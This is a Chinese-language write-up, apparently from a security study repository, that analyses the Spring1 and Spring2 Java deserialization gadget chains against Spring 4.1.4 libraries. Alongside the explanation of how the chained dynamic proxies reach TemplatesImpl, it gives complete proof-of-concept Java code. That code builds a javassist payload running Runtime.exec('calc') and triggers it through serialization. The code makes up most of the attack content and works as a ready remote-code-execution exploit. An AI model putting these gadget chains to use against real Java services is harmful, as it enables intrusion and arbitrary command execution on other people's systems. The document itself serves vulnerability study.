



# Spring1

```xml
<dependencies>
    <dependency>
        <groupId>org.springframework</groupId>
        <artifactId>spring-beans</artifactId>
        <version>4.1.4.RELEASE</version>
    </dependency>
    <dependency>
        <groupId>org.springframework</groupId>
        <artifactId>spring-core</artifactId>
        <version>4.1.4.RELEASE</version>
    </dependency>
</dependencies>
```

## MethodInvokeTypeProvider

切入点在 `org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider`

```java
static class MethodInvokeTypeProvider implements TypeProvider {

    private final TypeProvider provider;

    private final String methodName;

    private final int index;

    private transient Object result;

    public MethodInvokeTypeProvider(TypeProvider provider, Method method, int index) {
        this.provider = provider;
        this.methodName = method.getName();
        this.index = index;
        this.result = ReflectionUtils.invokeMethod(method, provider.getType());
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException {
        inputStream.defaultReadObject();
        Method method = ReflectionUtils.findMethod(this.provider.getType().getClass(), this.methodName);
        this.result = ReflectionUtils.invokeMethod(method, this.provider.getType());
    }
}
```

`readObject`会调用`this.provider.getType()`返回对象的`this.methodName`指定的方法，这里`ReflectionUtils.findMethod`和`ReflectionUtils.invokeMethod`都没有传递`Method`的参数，因此是无参方法和无参调用。

我们的目标是让`this.MethodName`为`newTransformer`或`getOutputProperties`（这两个都是public方法，`findMethod`和`invokeMethod`都没有设置`Method`的可访问性），让`this.provider.getType()`返回`TemplatesImpl`

这个可以通过动态代理实现，先介绍几个调用处理器

## ObjectFactoryDelegatingInvocationHandler

`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler`

```java
private static class ObjectFactoryDelegatingInvocationHandler implements InvocationHandler, Serializable {

    private final ObjectFactory<?> objectFactory;

    public ObjectFactoryDelegatingInvocationHandler(ObjectFactory<?> objectFactory) {
        this.objectFactory = objectFactory;
    }

    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        String methodName = method.getName();
        if (methodName.equals("equals")) {
            // Only consider equal when proxies are identical.
            return (proxy == args[0]);
        }
        else if (methodName.equals("hashCode")) {
            // Use hashCode of proxy.
            return System.identityHashCode(proxy);
        }
        else if (methodName.equals("toString")) {
            return this.objectFactory.toString();
        }
        try {
            return method.invoke(this.objectFactory.getObject(), args);
        }
        catch (InvocationTargetException ex) {
            throw ex.getTargetException();
        }
    }
}
```

invoke中会把方法调用委派给`objectFactory#getObject()`获取到的对象。

## AnnotationInvocationHandler

`sun.reflect.annotation.AnnotationInvocationHandler`

```java
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }

    public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        Class<?>[] paramTypes = method.getParameterTypes();

        // Handle Object and Annotation methods
        if (member.equals("equals") && paramTypes.length == 1 &&
            paramTypes[0] == Object.class)
            return equalsImpl(args[0]);
        if (paramTypes.length != 0)
            throw new AssertionError("Too many parameters for an annotation method");

        switch(member) {
            case "toString":
                return toStringImpl();
            case "hashCode":
                return hashCodeImpl();
            case "annotationType":
                return type;
        }

        // Handle annotation member accessors
        Object result = memberValues.get(member);

        if (result == null)
            throw new IncompleteAnnotationException(type, member);

        if (result instanceof ExceptionProxy)
            throw ((ExceptionProxy) result).generateException();

        if (result.getClass().isArray() && Array.getLength(result) != 0)
            result = cloneArray(result);

        return result;
    }
}
```

`invoke`的返回值在`memberValues`中找，key为`method`方法名。可以返回任意对象。

## Weave Poc

`TypeProvider#getType`返回的是`Type`接口类，我们可以让一个动态代理类去代理`Type`接口。

由于接下来`ReflectionUtils.invokeMethod(method, this.provider.getType());`要调用`newTransformer`，因此我们这个代理类除了代理`Type`接口类，还得代理`Templates`接口类（才能获取到接口类的方法）

获取到的动态代理类Proxy1有如下方法



那如何让`TypeProvider#getType`返回我们的`(Type)Proxy1`呢，也是再套一层动态代理，代理`TypeProvider`接口类，利用`AnnotationInvocationHandler`返回`Proxy1`，即设置`memberValues.put("getType", Proxy1)`

`Proxy1`的调用处理器设置为`ObjectFactoryDelegatingInvocationHandler`，这样就能把`newTransformer`的调用委托给`ObjectFactory#getObject`的返回对象去调用了。

让`ObjectFactory#getObject`返回`TemplatesImpl`即可，到此有两条路可走，继续套动态代理或寻找`ObjectFactory`的实现类（翻了一下发现不好构造，还是没有动态代理来得优雅）

继续套一层动态代理，代理`ObjectFactory<?>`泛型接口，利用`AnnotationInvocationHandler`返回`TemplatesImpl`，即设置`memberValues.put("getObject", TemplatesImpl)`

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;

public class Spring1 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{genPayload("calc")});
        setValue(templates, "_name", "1");

        Class<?> clazz1 = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> con1 = clazz1.getDeclaredConstructors()[0];
        con1.setAccessible(true);
        HashMap<String, Object> map1 = new HashMap<String, Object>();
        map1.put("getObject", templates);
        InvocationHandler invocationHandler1 = (InvocationHandler) con1.newInstance(Target.class, map1);
        ObjectFactory<?> factory = (ObjectFactory<?>) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler1);

        Class<?> clazz2 = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> con2 = clazz2.getDeclaredConstructors()[0];
        con2.setAccessible(true);
        InvocationHandler ofdHandler = (InvocationHandler) con2.newInstance(factory);
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, ofdHandler);

        HashMap<String, Object> map2 = new HashMap<String, Object>();
        map2.put("getType", typeTemplateProxy);
        InvocationHandler invocationHandler2 = (InvocationHandler) con1.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, invocationHandler2);

        Class<?> clazz3 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> con3 = clazz3.getDeclaredConstructors()[0];
        con3.setAccessible(true);
        Object o = con3.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        setValue(o, "methodName", "newTransformer");

        ser(o);
    }

    public static void ser(Object o) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();
    }

    public static byte[] genPayload(String cmd) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"" + cmd + "\");");
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }

    public static void setValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

# Spring2

在Spring1链基础上有所变化，把`spring-beans`的`ObjectFactoryDelegatingInvocationHandler`换成`spring-aop`的`JdkDynamicAopProxy`

```xml
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
```

## JdkDynamicAopProxy

```java
final class JdkDynamicAopProxy implements AopProxy, InvocationHandler, Serializable {
    private final AdvisedSupport advised;
    public JdkDynamicAopProxy(AdvisedSupport config) throws AopConfigException {
		// ...
		this.advised = config;
	}
}
```





`JdkDynamicAopProxy`将方法调用委托给了`AdvisedSupport`的`target`成员

直接上POC

```java
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setValue(templates, "_bytecodes", new byte[][]{genPayload("calc")});
setValue(templates, "_name", "1");

AdvisedSupport as = new AdvisedSupport();
as.setTarget(templates);

Class<?> clazz0 = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
Constructor<?> con0 = clazz0.getDeclaredConstructors()[0];
con0.setAccessible(true);
InvocationHandler aopInvocationHandler = (InvocationHandler) con0.newInstance(as);
Object aopProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Templates.class}, aopInvocationHandler);

HashMap<String, Object> map2 = new HashMap<String, Object>();
map2.put("getType", aopProxy);
Class<?> clazz2 = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> con2 = clazz2.getDeclaredConstructors()[0];
con2.setAccessible(true);
InvocationHandler invocationHandler2 = (InvocationHandler) con2.newInstance(Target.class, map2);
Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider")}, invocationHandler2);

Class<?> clazz3 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
Constructor<?> con3 = clazz3.getDeclaredConstructors()[0];
con3.setAccessible(true);
Object o = con3.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
setValue(o, "methodName", "getOutputProperties");

ser(o);
```

# Ref

https://su18.org/post/ysoserial-su18-3/#spring1
